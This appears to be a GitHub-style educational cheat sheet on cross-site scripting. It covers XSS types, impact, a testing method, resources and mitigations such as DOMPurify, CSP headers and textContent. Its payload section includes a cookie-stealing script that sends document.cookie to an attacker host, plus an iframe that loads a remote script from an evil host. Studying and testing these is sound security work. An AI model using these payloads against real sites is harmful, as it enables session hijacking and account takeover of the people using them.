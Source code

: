 # 🎯 Cross-Site Scripting (XSS)  
*Web vulnerability where attackers inject malicious scripts into trusted websites*  

---

## 📖 Table of Contents  
- [📜 Definition](#-definition)  
- [🔀 Types of XSS](#-types-of-xss)  
- [💥 Impact](#-impact)  
- [🔍 Testing Methodology](#-testing-methodology)  
- [📌 Common Payloads](#-common-payloads)  
- [📚 Resources](#-resources)  
- [🛡️ Mitigation](#️-mitigation)  

---

## 📜 Definition  
XSS (Cross-Site Scripting) is an injection vulnerability where attackers execute malicious JavaScript in a victim's browser, often for:  
- Session hijacking 🕵️  
- Phishing attacks 🎣  
- Defacement 🏴  

---

## 🔀 Types of XSS  

| Type              | Description                                                                 | Risk Level |  
|--------------------|-----------------------------------------------------------------------------|------------|  
| **🔄 Stored XSS**   | Malicious script is **stored** on the server (e.g., comments/user profiles). Executes when victims view infected pages. | Critical   |  
| **🎯 Reflected XSS**| Script is **reflected** in immediate server responses (e.g., search results). Requires social engineering.             | High       |  
| **🌐 DOM-based XSS**| Client-side attack exploiting unsafe JavaScript DOM manipulation. No server interaction.                              | High       |  

---

## 💥 Impact  
- **Cookie/session theft** 🍪  
- **Account takeover** 👑  
- **Keylogging** ⌨️  
- **Content spoofing** 🎭  
- **Redirection to malicious sites** ➡️  

---

## 🔍 Testing Methodology  
1. **Identify Input Points**:  
   - Search bars 🔍  
   - Comment sections 💬  
   - User profiles (bio/username) 👤  
   - URL parameters (e.g., `?id=<payload>`) 🌐  

2. **Test for Reflection**:  
   - Inject a unique string (e.g., `cupcakes123`) and check:  
     ```html
     <!-- Check if it appears in: -->
     Page content | HTML source | Network responses (DevTools)
     ```  

3. **Escalate with Payloads**:  
   ```html
   <script>alert(1)</script>                 <!-- Classic test -->
   <img src=x onerror="alert(document.cookie)">  <!-- Cookie theft demo -->
   ```

---

## 📌 Common Payloads  
### Basic Tests  
```html
<script>alert(1)</script>
"><svg/onload=confirm(1)>
```  

### Advanced Attacks  
```html
<!-- Steal cookies -->
<script>fetch('https://attacker.com?cookie='+document.cookie)</script>  

<!-- Redirect to phishing site -->
<iframe src="javascript:document.write('<script src=//evil.site/xss.js></script>')">
```  

📖 Full Cheat Sheet: [XSS Payload Masterlist](https://gist.github.com/kurobeats/9a613c9ab68914312cbb415134795b45)  

---

## 📚 Resources  
| Resource | Description | Link |  
|----------|-------------|------|  
| **Beyond XSS** | Advanced exploitation techniques | [aszx87410.github.io](https://aszx87410.github.io/beyond-xss/en/) |  
| **PortSwigger Labs** | Hands-on XSS practice | [portswigger.net](https://portswigger.net/web-security/cross-site-scripting) |  
| **OWASP XSS Guide** | Defense strategies | [owasp.org](https://owasp.org/www-community/attacks/xss/) |  

---

## 🛡️ Mitigation  
| Strategy | Example |  
|----------|---------|  
| **Sanitize Inputs** | Remove/escape HTML tags with libraries like `DOMPurify` |  
| **Use CSP Headers** | `Content-Security-Policy: default-src 'self'` |  
| **Avoid Unsafe Functions** | Use `textContent` instead of `innerHTML` |  

```javascript
// UNSAFE ❌
element.innerHTML = userInput;

// SAFE ✅
element.textContent = userInput;
```

---
